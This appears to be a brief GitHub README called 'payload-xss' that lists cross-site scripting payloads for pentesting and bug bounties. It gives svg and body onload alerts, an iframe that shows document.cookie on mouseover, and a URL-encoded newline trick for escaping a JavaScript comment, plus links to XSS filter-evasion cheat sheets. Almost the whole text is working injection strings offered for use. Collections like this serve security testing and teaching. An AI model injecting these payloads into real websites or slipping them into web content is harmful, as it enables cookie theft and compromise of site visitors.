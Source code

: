 # payload-xss

`<svg/onload=alert('XSS')>`

`<BODY ONLOAD=alert('XSS')>`

`<IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>`

<i>%0A newline url encoded per mandare a capo il tuo payload. In caso ci sia un commento // %0Aalert(1) </i></br>
`a%0Aalert('XSS');//`

``

``

``

``

``

``

``

``

<!-- `` -->


# REFERENCE:
https://xn4k.github.io/pentest/bug%20bounty/ethical%20hacking/XSS-Filter-Evasion-Cheat-Sheet/
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
